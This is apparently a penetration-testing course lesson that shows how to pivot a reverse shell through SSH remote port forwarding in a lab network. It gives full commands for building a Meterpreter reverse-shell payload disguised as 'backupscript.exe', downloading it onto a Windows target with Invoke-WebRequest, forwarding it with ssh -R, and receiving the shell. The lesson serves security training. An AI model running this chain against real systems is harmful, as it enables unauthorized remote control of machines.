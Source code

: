 # Remote/Reverse Port Forwarding with SSH

---

We have seen local port forwarding, where SSH can listen on our local host and forward a service on the remote host to our port, and dynamic port forwarding, where we can send packets to a remote network via a pivot host. But sometimes, we might want to forward a local service to the remote port as well. Let's consider the scenario where we can RDP into the Windows host `Windows A`. As can be seen in the image below, in our previous case, we could pivot into the Windows host via the Ubuntu server.

![](imgs/33.webp)

`But what happens if we try to gain a reverse shell?`

The `outgoing connection` for the Windows host is only limited to the `172.16.5.0/23` network. This is because the Windows host does not have any direct connection with the network the attack host is on. If we start a Metasploit listener on our attack host and try to get a reverse shell, we won't be able to get a direct connection here because the Windows server doesn't know how to route traffic leaving its network (172.16.5.0/23) to reach the 10.129.x.x (the Academy Lab network).

There are several times during a penetration testing engagement when having just a remote desktop connection is not feasible. You might want to `upload`/`download` files (when the RDP clipboard is disabled), `use exploits` or `low-level Windows API` using a Meterpreter session to perform enumeration on the Windows host, which is not possible using the built-in [Windows executables](https://lolbas-project.github.io/).

In these cases, we would have to find a pivot host, which is a common connection point between our attack host and the Windows server. In our case, our pivot host would be the Ubuntu server since it can connect to both: `our attack host` and `the Windows target`. To gain a `Meterpreter shell` on Windows, we will create a Meterpreter HTTPS payload using `msfvenom`, but the configuration of the reverse connection for the payload would be the Ubuntu server's host IP address (`172.16.5.129`). We will use the port 8080 on the Ubuntu server to forward all of our reverse packets to our attack hosts' 8000 port, where our Metasploit listener is running.

#### Creating a Windows Payload with msfvenom

Remote/Reverse Port Forwarding with SSH

```shell-session
frank-106@htb[/htb]$ msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 712 bytes
Final size of exe file: 7168 bytes
Saved as: backupscript.exe
```

#### Configuring & Starting the multi/handler

Remote/Reverse Port Forwarding with SSH

```shell-session
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 8000
lport => 8000
msf6 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://0.0.0.0:8000
```

Once our payload is created and we have our listener configured & running, we can copy the payload to the Ubuntu server using the `scp` command since we already have the credentials to connect to the Ubuntu server using SSH.

#### Transferring Payload to Pivot Host

Remote/Reverse Port Forwarding with SSH

```shell-session
frank-106@htb[/htb]$ scp backupscript.exe ubuntu@<ipAddressofTarget>:~/

backupscript.exe                                   100% 7168    65.4KB/s   00:00 
```

After copying the payload, we will start a `python3 HTTP server` using the below command on the Ubuntu server in the same directory where we copied our payload.

#### Starting Python3 Webserver on Pivot Host

Remote/Reverse Port Forwarding with SSH

```shell-session
ubuntu@Webserver$ python3 -m http.server 8123
```

#### Downloading Payload on the Windows Target

We can download this `backupscript.exe` on the Windows host via a web browser or the PowerShell cmdlet `Invoke-WebRequest`.

Remote/Reverse Port Forwarding with SSH

```powershell-session
PS C:\Windows\system32> Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
```

Once we have our payload downloaded on the Windows host, we will use `SSH remote port forwarding` to forward connections from the Ubuntu server's port 8080 to our msfconsole's listener service on port 8000. We will use `-vN` argument in our SSH command to make it verbose and ask it not to prompt the login shell. The `-R` command asks the Ubuntu server to listen on `<targetIPaddress>:8080` and forward all incoming connections on port `8080` to our msfconsole listener on `0.0.0.0:8000` of our `attack host`.

#### Using SSH -R

Remote/Reverse Port Forwarding with SSH

```shell-session
frank-106@htb[/htb]$ ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN
```

After creating the SSH remote port forward, we can execute the payload from the Windows target. If the payload is executed as intended and attempts to connect back to our listener, we can see the logs from the pivot on the pivot host.

#### Viewing the Logs from the Pivot

Remote/Reverse Port Forwarding with SSH

```shell-session
ebug1: client_request_forwarded_tcpip: listen 172.16.5.129 port 8080, originator 172.16.5.19 port 61355
debug1: connect_next: host 0.0.0.0 ([0.0.0.0]:8000) in progress, fd=5
debug1: channel 1: new [172.16.5.19]
debug1: confirm forwarded-tcpip
debug1: channel 0: free: 172.16.5.19, nchannels 2
debug1: channel 1: connected to 0.0.0.0 port 8000
debug1: channel 1: free: 172.16.5.19, nchannels 1
debug1: client_input_channel_open: ctype forwarded-tcpip rchan 2 win 2097152 max 32768
debug1: client_request_forwarded_tcpip: listen 172.16.5.129 port 8080, originator 172.16.5.19 port 61356
debug1: connect_next: host 0.0.0.0 ([0.0.0.0]:8000) in progress, fd=4
debug1: channel 0: new [172.16.5.19]
debug1: confirm forwarded-tcpip
debug1: channel 0: connected to 0.0.0.0 port 8000
```

If all is set up properly, we will receive a Meterpreter shell pivoted via the Ubuntu server.

#### Meterpreter Session Established

Remote/Reverse Port Forwarding with SSH

```shell-session
[*] Started HTTPS reverse handler on https://0.0.0.0:8000
[!] https://0.0.0.0:8000 handling request from 127.0.0.1; (UUID: x2hakcz9) Without a database connected that payload UUID tracking will not work!
[*] https://0.0.0.0:8000 handling request from 127.0.0.1; (UUID: x2hakcz9) Staging x64 payload (201308 bytes) ...
[!] https://0.0.0.0:8000 handling request from 127.0.0.1; (UUID: x2hakcz9) Without a database connected that payload UUID tracking will not work!
[*] Meterpreter session 1 opened (127.0.0.1:8000 -> 127.0.0.1 ) at 2022-03-02 10:48:10 -0500

meterpreter > shell
Process 3236 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\>
```

Our Meterpreter session should list that our incoming connection is from a local host itself (`127.0.0.1`) since we are receiving the connection over the `local SSH socket`, which created an `outbound` connection to the Ubuntu server. Issuing the `netstat` command can show us that the incoming connection is from the SSH service.

The below graphical representation provides an alternative way to understand this technique.

![](imgs/44.webp)

In addition to answering the challenge questions, practice this technique and try to obtain a reverse shell from the Windows target.